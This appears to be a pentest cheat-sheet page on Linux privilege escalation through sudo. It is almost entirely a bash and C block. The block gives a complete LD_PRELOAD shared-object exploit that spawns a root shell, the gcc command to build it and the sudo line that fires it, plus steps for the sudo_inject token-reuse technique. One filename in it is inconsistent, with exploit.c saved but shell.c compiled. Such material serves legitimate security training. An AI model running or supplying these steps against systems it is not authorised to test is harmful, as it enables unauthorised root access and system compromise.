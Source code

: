 >[!INFO]
>Manual checks can help **understand way more how attacks work**.

# Walkthrough

## SUDO

```bash
# check sudo version for exploits
sudo -V | grep “Sudo ver”

# check rights
sudo -l
# gtfobins !

# sudo LD_PRELOAD
Defaults        env_keep += LD_PRELOAD

# COMPILE /tmp/exploit.c :

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}

# with :

gcc -fPIC -shared -o shell.so shell.c -nostartfiles

# Execute any binary with the LD_PRELOAD to spawn a shell : 

sudo LD_PRELOAD=<full_path_to_so_file> <program>
sudo LD_PRELOAD=/tmp/shell.so find

# sudo_inject | https://github.com/nongiach/sudo_inject

# requirements : 
#    Ptrace fully enabled (/proc/sys/kernel/yama/ptrace_scope == 0).
#    Current user must have living process that has a valid sudo token with the same uid.

sudo whatever
sh exploit.sh

# wait
sudo -i
# root !
```
